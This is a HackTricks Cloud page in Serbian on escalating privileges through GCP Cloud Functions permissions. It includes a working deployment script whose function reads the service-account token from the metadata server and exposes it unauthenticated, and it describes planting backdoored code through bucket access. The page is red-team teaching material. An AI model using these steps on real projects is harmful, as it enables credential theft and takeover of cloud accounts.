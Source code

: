 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Više informacija o Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napadač sa ovim privilegijama može **napraviti novu Cloud Function sa proizvoljnim (malicioznim) kodom i dodeliti joj Service Account**. Zatim, iscuriti token Service Account-a iz metapodataka kako bi eskalirao privilegije na njega.\
Neke privilegije za aktiviranje funkcije mogu biti potrebne.

Eksploatacijski skripti za ovu metodu mogu se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) i [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), a unapred izgrađeni .zip fajl može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napadač sa ovim privilegijama može **modifikovati kod funkcije i čak modifikovati prateći servisni nalog** sa ciljem exfiltracije tokena.

{% hint style="danger" %}
Da biste implementirali cloud funkcije, takođe će vam biti potrebne actAs dozvole za podrazumevani servisni nalog za računanje ili za servisni nalog koji se koristi za izgradnju slike.
{% endhint %}

Neke dodatne privilegije kao što su `.call` dozvola za verziju 1 cloudfunctions ili uloga `role/run.invoker` za aktiviranje funkcije mogu biti potrebne.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Ako dobijete grešku `Permission 'run.services.setIamPolicy' denied on resource...` to je zato što koristite parametar `--allow-unauthenticated` i nemate dovoljno dozvola za to.
{% endhint %}

Eksploatacijski skript za ovu metodu može se pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Sa ovom dozvolom možete dobiti **potpisani URL kako biste mogli da otpremite datoteku u funkcijski bucket (ali kod funkcije neće biti promenjen, još uvek ga morate ažurirati)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nisam baš siguran koliko je ova dozvola korisna iz perspektive napadača, ali dobro je znati.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Dajte sebi bilo koju od prethodnih **`.update`** ili **`.create`** privilegija da biste eskalirali.

### `cloudfunctions.functions.update`

Samo imajući **`cloudfunctions`** dozvole, bez **`iam.serviceAccounts.actAs`** nećete moći da ažurirate funkciju, PA TO NIJE VALIDNA PRIVESC.

### Pristup za čitanje i pisanje nad bucket-om

Ako imate pristup za čitanje i pisanje nad bucket-om, možete pratiti promene u kodu i kada god dođe do **ažuriranja u bucket-u, možete ažurirati novi kod sa svojim kodom** koji će nova verzija Cloud Function-a pokrenuti sa dostavljenim backdoored kodom.

Možete proveriti više o napadu u:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Međutim, ne možete ovo koristiti za prethodno kompromitovanje trećih strana Cloud Functions, jer ako kreirate bucket u svom nalogu i date mu javne dozvole tako da eksterni projekat može pisati preko njega, dobijate sledeću grešku:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Međutim, ovo bi moglo biti korišćeno za DoS napade.
{% endhint %}

### Pristup za čitanje i pisanje nad Artifact Registry

Kada se kreira Cloud Function, nova docker slika se šalje u Artifact Registry projekta. Pokušao sam da modifikujem sliku novom, pa čak i da obrišem trenutnu sliku (i `cache` sliku) i ništa se nije promenilo, cloud funkcija nastavlja da radi. Stoga, možda bi **moglo biti moguće zloupotrebiti napad Race Condition** kao sa bucket-om da promenite docker kontejner koji će biti pokrenut, ali **samo modifikovanjem sačuvane slike nije moguće kompromitovati Cloud Function**.

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
